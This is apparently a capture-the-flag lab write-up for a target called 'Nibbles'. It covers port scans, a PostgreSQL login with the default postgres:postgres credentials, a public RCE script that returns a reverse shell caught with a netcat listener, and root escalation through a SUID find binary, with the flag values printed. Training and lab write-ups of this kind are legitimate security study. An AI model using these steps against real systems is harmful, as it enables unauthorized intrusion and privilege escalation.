

## Room Link

N/A

## Credentials

```text
```

## 1. Port Scan

### Rustscan

```bash
[+][12:22][CPU:20][MEM:68][TUN0:192.168.45.166][/home/n0z0]
$ rustscan -a $ip -r 1-65535 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
TreadStone was here

[~] The config file is expected to be at "/home/n0z0/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.178.47:21
Open 192.168.178.47:22
Open 192.168.178.47:80
Open 192.168.178.47:5437
[~] Starting Script(s)

```

### Nmap

```bash
[+][12:22][CPU:18][MEM:67][TUN0:192.168.45.166][/home/n0z0]
$ timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/${timestamp}_${ip}.xml"

grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"

echo -e "\e[32mScan result saved to: $output_file\e[0m"
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-23 12:22 JST
Nmap scan report for 192.168.178.47
Host is up (0.085s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE  SERVICE      VERSION
21/tcp   open   ftp          vsftpd 3.0.3
22/tcp   open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open   http         Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Enter a title, displayed at the top of the window.
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.9
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Not valid before: 2020-04-27T15:41:47
|_Not valid after:  2030-04-25T15:41:47
Aggressive OS guesses: Linux 5.0 - 5.14 (98%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (98%), Linux 4.15 - 5.19 (94%), Linux 2.6.32 - 3.13 (93%), Linux 5.0 (92%), OpenWrt 22.03 (Linux 5.10) (92%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (90%), Linux 4.15 (90%), Linux 2.6.32 - 3.10 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   84.67 ms 192.168.45.1
2   84.63 ms 192.168.45.254
3   84.76 ms 192.168.251.1
4   84.78 ms 192.168.178.47

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.62 seconds
Scan result saved to: /home/n0z0/work/scans/20260223-122259_192.168.178.47.xml

```

## 2. Local Shell

I could log in with `postgres:postgres`.
The PostgreSQL account had superuser privileges.

```bash
[-][2:55][CPU:4][MEM:65][TUN0:192.168.45.166][/home/n0z0]
$ psql -h $ip -p 5437 -U postgres
Password for user postgres:
psql (17.6 (Debian 17.6-1), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off, ALPN: none)
Type "help" for help.

postgres=#
```

Windows version:
https://zenn.dev/j0hnsm1thyk/articles/6e713d1709afd9

Python tool:
https://github.com/squid22/PostgreSQL_RCE

```bash
[+][3:10][CPU:20][MEM:66][TUN0:192.168.45.166][...nd/Nibbles/PostgreSQL_RCE]
$ python3 postgresql_rce.py
[!] Connected to the PostgreSQL database
[*] Executing the payload. Please check if you got a reverse shell!

```

Reverse shell landed:

```bash
[-][3:10][CPU:5][MEM:66][TUN0:192.168.45.166][/home/n0z0]
$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.47] 45726
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Retrieved `local.txt`:

```bash
postgres@nibbles:/var/lib/postgresql/11/main$ find / -iname local.txt 2>/dev/null
/home/wilson/local.txt
postgres@nibbles:/var/lib/postgresql/11/main$ cat /home/wilson/local.txt
1beb5b3c9276ff5ba80a2128a85396d6
```

## 3. Privilege Escalation

Found an exploitable SUID binary.

```bash
==== Files with Interesting Permissions ====
SUID - Check easy privesc, exploits and write perms
https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
strings Not Found
strace Not Found
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 427K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 50K Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 35K Jan  7  2019 /usr/bin/fusermount
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 309K Feb 16  2019 /usr/bin/find
-rwsr-xr-x 1 root root 154K Feb  2  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)

```

Retrieved `proof.txt` as well:
https://gtfobins.org/gtfobins/find/

```bash

postgres@nibbles:/tmp$ find . -exec /bin/bash -p \; -quit
bash-5.0# cat /root/proof.txt
04102c714c890c2b14c6f3f2286e248d
bash-5.0#

```

## 4. Attack Flow


